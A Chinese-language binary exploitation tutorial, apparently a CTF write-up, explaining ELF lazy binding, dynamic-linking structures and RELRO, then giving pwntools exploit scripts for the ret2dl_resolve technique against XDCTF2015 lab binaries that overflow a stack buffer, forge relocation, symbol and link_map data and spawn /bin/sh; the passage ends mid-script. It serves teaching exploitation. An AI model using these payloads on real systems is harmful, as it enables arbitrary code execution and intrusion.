- [elf文件的延迟绑定机制](#elf文件的延迟绑定机制)
- [ret2dl\_resolve要用到的数据结构](#ret2dl_resolve要用到的数据结构)
  - [.dynamic](#dynamic)
  - [.dynstr](#dynstr)
  - [.dynsym](#dynsym)
  - [.rel.plt](#relplt)
- [ret2dl\_resolve](#ret2dl_resolve)
  - [NO RELRO](#no-relro)
    - [32位](#32位)
    - [64位](#64位)
  - [Partial RELRO](#partial-relro)
    - [32位](#32位-1)
    - [64位](#64位-1)
- [使用pwntools工具](#使用pwntools工具)


#  elf文件的延迟绑定机制
编译如下代码

```C
#include <stdio.h>
int main()
{
    puts("HelloWorld!");
    puts("HelloWorld!");
    return 0;
}
// gcc-11 -m32 -fno-stack-protector -no-pie main.c -o main
```

进行调试我们可以发现调用puts时是先跳转到`puts@plt`

跟进查看具体过程

push两个值，然后调用了`_dl_runtime_resolve`这个函数，这两个值是`_dl_runtime_resolve`的参数
我们再看第二次调用puts的过程

这里可以发现`0x804c010`储存了puts的实际地址
查看一下该地址发现是`puts@got`



#  ret2dl_resolve要用到的数据结构
## .dynamic
它包含了动态链接器需要的信息。这些信息包括符号表、字符串表、重定位表等，这些都是动态链接器在运行时解析共享库和解析符号时所需要的。
*   32位下的`.dynamic`
    
*   64位下的`.dynamic`
    
*   如下是`Elf_Dyn`结构体

    ```C
    typedef struct
    {
        Elf32_Sword	d_tag;      /* 0x4字节，类型标志 */
        union
        {
            Elf32_Word d_val;   /* 0x4字节，存放数值 */
            Elf32_Addr d_ptr;   /* 0x4字节，存放地址 */
        } d_un;
    } Elf32_Dyn;                /* 0x8字节，32位下的Elf_Dyn */
    
    typedef struct
        {
        Elf64_Sxword	d_tag;  /* 0x8字节，类型标志 */
        union
        {
            Elf64_Xword d_val;  /* 0x8字节，存放数值 */
            Elf64_Addr d_ptr;   /* 0x8字节，存放地址 */
        } d_un;
    } Elf64_Dyn;                /* 0x10字节，64位下的Elf_Dyn */
    ```

我们看一下所需要的部分
*   `DT_STRTAB`，保存着`.dynstr`的地址
*   `DT_SYMTAB`，保存着`.dynsym`的地址
*   `DT_JMPREL`，保存着`.rel.plt`的地址
## .dynstr
这是动态字符串表，它包含了所有动态链接的符号的名字这些名字被用于在运行时查找符号的实际地址
这个结构在32位和64位是一样的，就是一堆字符串然后用`\0`隔开

## .dynsym
这是动态符号表，它包含了所有动态链接的符号的信息
    32位`Elf_Sym`
    
    64位`Elf_Sym`
    
    可以在IDA中看出
*   32位下`Elf_Sym`第1个值是字符串的偏移，第4个值在是外部函数时为0x12，其余都为0
*   64位下`Elf_Sym`第1个值是字符串的偏移，第2个值在是外部函数时为0x12，其余都为0
*   符号的名字实际上是一个指向`.dynstr`中的字符串的索引
*   如下是Elf_Sym结构体

    ```C
    typedef struct {
        Elf32_Word    st_name;      /* 0x4字节，符号名在字符串表中的偏移 */
        Elf32_Addr    st_value;     /* 0x4字节，符号的值 */
        Elf32_Word    st_size;      /* 0x4字节，符号的大小 */
        unsigned char st_info;      /* 0x1字节，符号的类型和绑定属性 */
        unsigned char st_other;     /* 0x1字节，保留，未使用 */
        Elf32_Half    st_shndx;     /* 0x2字节，符号定义所在的节区索引 */
    } Elf32_Sym;                    /* 0x10字节 */

    typedef struct
    {
        Elf64_Word	st_name;        /* 0x4字节，符号名在字符串表中的偏移 */
        unsigned char	st_info;    /* 0x1字节，符号的类型和绑定属性 */
        unsigned char st_other;     /* 0x1字节，保留，未使用 */
        Elf64_Section	st_shndx;   /* 0x2字节，符号定义所在的节区索引 */
        Elf64_Addr	st_value;       /* 0x8字节，符号的值 */
        Elf64_Xword	st_size;        /* 0x8字节，符号的大小 */
    } Elf64_Sym;                    /* 0x18字节 */
    ```

## .rel.plt
这是过程链接表的重定位表，它包含了所有需要进行重定位的动态链接函数的信息
    32位Elf_Sym
    
    64位Elf_Sym
    
*   如下是Elf_Rel结构体

    ```C
    typedef struct {
        Elf32_Addr    r_offset; /* 0x4字节，指向存储实际地址的指针 */
        Elf32_Word    r_info;   /* 0x4字节，储存了该符号的索引和类型 */
    } Elf32_Rel;                /* 0x8字节 */

    typedef struct
    {
        Elf64_Addr	r_offset;   /* 0x8字节，指向存储实际地址的指针 */
        Elf64_Xword	r_info;     /* 0x8字节，储存了该符号的索引和类型 */
    } Elf64_Rel;                /* 0x10字节 */
    ```

___dl_runtime_resolve的两个参数:__
*   第一个参数是一个指向 `link_map` 结构的指针`l`,该结构包含了动态链接器需要的关于特定共享对象的信息
*   第二个参数是`reloc_arg`用来寻找`Elf_Rel`

__RELRO保护__
*   NO RELRO 会使`.dynamic`可写，通过修改`DT_STRTSB`加载其他的函数
*   Partial RELRO:使`.dynamic`段标记为只读，不可写。但是，GOT 的第一个条目(保存了动态链接器的信息)仍然是可写的。
*   Full RELRO:在链接时，链接器会将所有的 GOT 条目都标记为只读，包括第一个条目。这样就完全无法修改 GOT 了。


#   ret2dl_resolve
`_dl_runtime_resolve`如何找到函数呢？
*   通过`l`获取`.dynstr`，`.dynsym`，`.rel.plt`地址
*   通过`reloc_arg`获得`Elf_Rel`在`.rel.plt`中的偏移(64位下为下标)
*   通过`Elf_Rel`获取`Elf_Sym`在`.dynsym`的下标
*   通过`Elf_Sym`获取函数名在`.dynstr`中的偏移
*   通过函数名获取函数的实际地址并记录在对应的GOT表中

##  NO RELRO
### 32位
[main_no_relro_32](./elf/main_no_relro_32)
程序没有开启`RELRO`保护，我们可以直接修改`.dynamic`中的`STRTAB`的值指向我们伪造的字符串表，然后调用`_dl_runtime_resolve`即可将`strlen`重定向为`system`

```python
from pwn import *
context(arch = 'i386', os = 'linux', log_level = 'debug')
p	= process('./main_no_relro_32')
elf	= ELF('./main_no_relro_32')

dl          = 0x08048386
STRTAB		= 0x08049804 + 0x4
bss_addr	= elf.bss()
read_plt	= elf.plt['read']
strlen_plt	= elf.plt['strlen']
vuln_addr	= elf.symbols['vuln']

p.recvuntil('Welcome to XDCTF2015~!\n')

# 修改STRTAB的值指向bss段
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(STRTAB) + p32(4))
p.send(p32(bss_addr - 0x20))

# 在bss段写入伪造的字符串
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(15))
p.send(b'system\x00/bin/sh\x00')

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 112 + p32(dl) + p32(vuln_addr) + p32(bss_addr + 7))

p.interactive()
```

### 64位
[main_no_relro_64](./elf/main_no_relro_64)
和32位下原理一样，直接修改`.dynamic`中的`STRTAB`的值指向我们伪造的字符串表，然后调用`_dl_runtime_resolve`将`strlen`重定向为`execve`
但是要注意，64位下我们需要使用`ret2csu`来调用函数

```python
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p	= process('./main_no_relro_64')
elf	= ELF('./main_no_relro_64')

dl			= 0x4004F6
csu_part1	= 0x400750
csu_part2	= 0x400766
STRTAB		= 0x600988 + 8
bss_addr	= elf.bss()
read_got	= elf.got['read']
strlen_got	= elf.got['strlen']
vuln_addr	= elf.symbols['vuln']

#	使用ret2csu来调用函数
def csu(fun, edi, rsi, rdx):
	payload = b''
	payload += p64(csu_part2)
	payload += p64(0)	# add rsp, 8
	payload += p64(0)	# pop rbx
	payload += p64(1)	# pop rbp
	payload += p64(fun)	# pop r12
	payload += p64(edi)	# pop r13
	payload += p64(rsi)	# pop r14
	payload += p64(rdx)	# pop r15
	payload += p64(csu_part1)
	payload += p64(0) * 7
	return payload

p.recvuntil('Welcome to XDCTF2015~!\n')

# 修改STRTAB的值指向bss段
p.send(b'a' * 120 + csu(read_got, 0, STRTAB, 8) + p64(vuln_addr))
p.send(p64(bss_addr - 0x11))

# 在bss段写入伪造的字符串
p.send(b'a' * 120 + csu(read_got, 0, bss_addr, 7 + 8) + p64(vuln_addr))
p.send(b'execve\x00/bin/sh\x00')

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 120 + p64(dl) + p64(vuln_addr))

# 调用execve
p.send(b'a' * 120 + csu(strlen_got, bss_addr + 7, 0, 0) + p64(vuln_addr))

p.interactive()
```


##  Partial RELRO
### 32位
[main_partial_relro_32](./elf/main_partial_relro_32)
既然开启了`Partial RELRO`我们就没办法去修改`.dynamic`中的`STRTAB`
但是在调用`_dl_runtime_resolve`时是通过`l`和`reloc_arg`这两个参数去寻找我们的函数，这里我们伪造`reloc_arg`这个参数:
*   修改`reloc_arg`使`.rel.plt` + `reloc_arg`的地址为我们伪造的Elf_Rel
*   通过伪造的Elf_Rel找到我们伪造的Elf_Sym
*   通过伪造的Elf_Sym找到我们伪造的字符串
我们在bss段中伪造`Elf_Rel`，`Elf_Sym`和字符串

```python
# 伪造JMPREL
payload	= p32(strlen_got) + p32((int((bss_addr + 0x8 + 0xC - SYMTAB) / 0x10) << 8) | 0x07)
# 伪造SYMTAB
payload	+= b'a' * 0xC + p32(bss_addr + 0x8 + 0xC + 0x10 - STRTAB) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0)
# system和/bin/sh字符串
payload	+= b'system\x00/bin/sh\x00'
```

然后push`_dl_runtime_resolve`的第二个参数为`.rel.plt`到伪造的`Elf_Rel`的偏移，最终的payload如下:

```python
from pwn import *
context(arch='i386', os='linux', log_level='debug')
p	= process('./main_partial_relro_32')
elf	= ELF('./main_partial_relro_32')

dl			= 0x08048370
STRTAB		= 0x0804826C
SYMTAB		= 0x080481CC
JMPREL		= 0x08048324

bss_addr	= elf.bss()
read_plt	= elf.plt['read']
vuln_addr	= elf.symbols['vuln']
strlen_plt	= elf.plt['strlen']
strlen_got	= elf.got['strlen']

p.recvuntil('Welcome to XDCTF2015~!\n')

# 需要在bss段写入的数据
payload	= p32(strlen_got) + p32((int((bss_addr + 0x8 + 0xC - SYMTAB) / 0x10) << 8) | 0x07)		                # 伪造JMPREL
payload	+= b'a' * 0xC + p32(bss_addr + 0x8 + 0xC + 0x10 - STRTAB) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0)	# 伪造SYMTAB
payload	+= b'system\x00/bin/sh\x00'                                                                             # system和/bin/sh字符串

# 往bss中写入伪造数据
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(len(payload)))
p.send(payload)

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 112 + p32(dl) + p32(bss_addr - JMPREL) + p32(vuln_addr) + p32(bss_addr + 0x8 + 0xC + 0x10 + 0x7))

p.interactive()
```

但是我们并没有拿到shell，调试一下发现在`_dl_fixup`函数中我们尝试将
`0xf8016784`中的值写入`0x0`中，很明显我们`0x0`处是不可写的


我们看一下`_dl_fixup`的源码

```C
if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
{
    const struct r_found_version *version = NULL;
    if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
    {
        const ElfW(Half) *vernum =
        (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
        ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
        version = &l->l_versions[ndx];
        if (version->hash == 0)
            version = NULL;
    }
    // ...
}
```

发现将`VERSYM` + `(Elf_Rel->r_info >> 0x8) * 2`地址的值传给`ndx`，作为`l->l_versions`的下标，然后在访问`version`的`hash`时出错
我们查看一下`l->l_versions`指向的地址


因为当`version`为`NULL`的时，也可以正常解析符号，那么我们就可以把`ndx`设置为0，1，3，4...等等。
我们就先把`ndx`设置为`0`，即`VERSYM` + `(Elf_Rel->r_info >> 0x8) * 2`地址的值为`0`，原来的payload会让其指向`0x80486A6`，那我们在`0x80486A6`下方找一个地址使其值为`0`，找到`0x80486AA`处其值为`0`
那么我们的新的payload为:

```python
from pwn import *
context(arch='i386', os='linux', log_level='debug')
p	= process('./main_partial_relro_32')
elf	= ELF('./main_partial_relro_32')

dl			= 0x08048370
STRTAB		= 0x0804826C
SYMTAB		= 0x080481CC
JMPREL		= 0x08048324

bss_addr	= elf.bss()
read_plt	= elf.plt['read']
vuln_addr	= elf.symbols['vuln']
strlen_plt	= elf.plt['strlen']
strlen_got	= elf.got['strlen']

p.recvuntil('Welcome to XDCTF2015~!\n')

# 需要在bss段写入的数据
payload	= p32(strlen_got) + p32((int((bss_addr + 0x34 - SYMTAB) / 0x10) << 8) | 0x07)								# 伪造JMPREL
payload	+= b'a' * (0x34 - 8) + p32(bss_addr + 0x34 + 0x10 - STRTAB) + p32(0) + p32(0) + p8(0x12) + p8(0) + p16(0)	# 伪造SYMTAB
payload	+= b'system\x00/bin/sh\x00'																					# system和/bin/sh字符串

# 往bss中写入伪造数据
p.send(b'a' * 112 + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(len(payload)))
p.send(payload)

# 调用strlen的plt的第二部分去重定向strlen
p.send(b'a' * 112 + p32(dl) + p32(bss_addr - JMPREL) + p32(vuln_addr) + p32(bss_addr + 0x34 + 0x10 + 0x7))

p.interactive()
```


### 64位
[main_partial_relro_64](./elf/main_partial_relro_64)
我们发现，在设置`ndx`为0的时候，已经超出了能够正确读取的地址。
我们观察`_dl_fixup`中让我们payload崩溃的部分
```C
if (__builtin_expect (ELFW(ST_VISIBILITY) (sym->st_other), 0) == 0)
{
    const struct r_found_version *version = NULL;
    if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
    {
        const ElfW(Half) *vernum =
        (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
        ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
        version = &l->l_versions[ndx];
        if (version->hash == 0)
            version = NULL;
    }
    // ...
}
```
我们可以选择绕过第一个if
*   解析的函数实际地址计算方式为`value = l->l_addr + sym->st_value`
*   伪造一个`link_map`，将`DT_SYMTAB`的指针指向got表中的第一个函数 - `0x8`的位置
*   那么我们的`sym->st_other`恰好不为`0`且`sym->st_value`指向该函数的实际地址
*   再将`l->l_addr`设置为`execve`和got表第一个函数的偏移
*   最终就可以解析出`execve`函数

>   我们伪造的`link_map`需要的数据为:`l_addr`，`DT_STRTAB`指针，`DT_SYMTAB`指针，`DT_JMPREL`指针

DT_STRTAB指针：`link_map` + 0x68 (32位下为：0x34)
DT_SYMTAB指针：`link_map` + 0x70 (32位下为：0x38)
DT_JMPREL指针：`link_map` + 0xF8 (32位下为：0x7C)

payload如下

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p   = process('./main_partial_relro_64')
elf = ELF('./main_partial_relro_64')
libc= ELF('/lib/x86_64-linux-gnu/libc.so.6')

def csu(fun, edi, rsi, rdx):
    payload = b''
    payload += p64(csu_part2)
    payload += p64(0)	# add rsp, 8
    payload += p64(0)	# pop rbx
    payload += p64(1)	# pop rbp
    payload += p64(fun)	# pop r12
    payload += p64(edi)	# pop r13
    payload += p64(rsi)	# pop r14
    payload += p64(rdx)	# pop r15
    payload += p64(csu_part1)
    payload += p64(0) * 7
    return payload

dl          = 0x400506
DT_STRTAB   = 0x600EA0
csu_part1	= 0x400780
csu_part2	= 0x400796
bss_addr	= elf.bss() + 0x30
read_got	= elf.got['read']
write_got   = elf.got['write']
vuln_addr	= elf.symbols['vuln']
l_addr		= libc.symbols['execve'] - libc.symbols['write']

if l_addr < 0:  
   l_addr = l_addr + 0x10000000000000000

gdb.attach(p, 'b _dl_fixup\nc\n')

p.recvuntil('Welcome to XDCTF2015~!\n')

# 伪造各个节
payload1  = p64(6) + p64(write_got - 0x8 - 0x18)        # DT_SYMTAB
payload1 += p64(0x17) + p64(bss_addr + 0x8 * 4)         # JMPREL
payload1 += p64(write_got) + p64(0x100000007) + p64(0)	# Elf64_Rel
# 伪造link_map
payload2  = p64(l_addr)
payload2  = payload2.ljust(0x68, b'\x00')
payload2 += p64(DT_STRTAB)                              # 指向字符串表
payload2 += p64(bss_addr)                               # 指向伪造的Elf64_Sym
payload2  = payload2.ljust(0xF8, b'\x00')
payload2 += p64(bss_addr + 0x8 * 2)                     # 指向伪造的Elf64_Rel
# 合成最终payload
payload   = payload1 + payload2
payload   = payload.ljust(0x200, b'\x00')
payload  += b'/bin/sh\x00'

# 往bss中写入伪造数据
p.send(b'a' * 120 + csu(read_got, 0, bss_addr, len(payload)) + p64(vuln_addr))
p.send(payload)

# 调用_dl_resolve_call函数重定向write函数
p.send(b'a' * 120 + p64(dl) + p64(bss_addr + len(payload1)) + p64(0) + p64(vuln_addr))

# 执行strlen函数
p.send(b'a' * 120 + csu(write_got, bss_addr + 0x200, 0, 0) + p64(vuln_addr))

p.interactive()
```

但是运行时发现错误，我们调试一下:

在`_dl_fixup`中，向`0x5d7828`中写入了`execve`的实际地址，很明显`0x5d7828`并不可写，通过glibc源码我们知道应该是向`Elf64_Rel->r_offset`中写入`execve`的实际地址，我们重新调试查看这个`r12`的值是如何来的

我们发现一共给`r12`进行两次操作，第一次将`rsi`指向的值赋值给`r12`，此时`r12`的值为`write@got`的地址
但是紧接着又给`r12`加上了`rax`，`rax`的值恰好是我们计算的`l_addr`，于是最终`r12`指向了一个未知的地方
我们这里重新修正`r12`的值，我们不能修改`l_addr`，但是我们可以修改`Elf64_Rel->r_offset`，使`Elf64_Rel->r_offset` + `l_addr` = `write@got`的地址
最终payload如下:

```python
from pwn import *
context(arch='amd64', os='linux', log_level='debug')
p   = process('./main_partial_relro_64')
elf = ELF('./main_partial_relro_64')
libc= ELF('/lib/x86_64-linux-gnu/libc.so.6')

def csu(fun, edi, rsi, rdx):
    payload = b''
    payload += p64(csu_part2)
    payload += p64(0)	# add rsp, 8
    payload += p64(0)	# pop rbx
    payload += p64(1)	# pop rbp
    payload += p64(fun)	# pop r12
    payload += p64(edi)	# pop r13
    payload += p64(rsi)	# pop r14
    payload += p64(rdx)	# pop r15
    payload += p64(csu_part1)
